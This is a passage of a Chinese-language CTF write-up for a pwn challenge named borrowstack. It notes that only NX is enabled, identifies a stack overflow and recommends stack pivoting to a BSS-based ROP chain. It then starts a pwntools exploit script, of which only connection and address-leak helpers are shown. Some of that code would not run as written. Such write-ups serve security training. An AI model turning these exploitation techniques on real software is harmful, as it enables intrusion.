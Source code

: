 ```
    sh.close()

```



## 0x07 SecondDay_borrowstack

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E4%BF%A1%E6%81%AF"></a>题目信息

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-024835.png)

仅开启NX保护

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-033648.png)

本题很明显存在栈溢出，并且可以使用栈迁移技术完成利用。

但要注意，我们在BSS段构造`ROP Chain`时，需要在前端布置一段空区域，防止ROP链在执行时访问到非法内存。

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import sys
context.log_level='debug'
context.arch='amd64'
# context.arch='i386'

borrowstack=ELF('./borrowstack', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./", checksec = False)
        return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./borrowstack")

def get_address(sh,info=null,start_string=null,end_string=null,offset=null,int_mode=False):
    sh.recvuntil(start_string)
    if int_mode :
        return_address=int(sh.recvuntil(end_string).strip(end_string),16)
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    log.success(info+str(hex(return_address+offset)))
    return return_address+offset
```
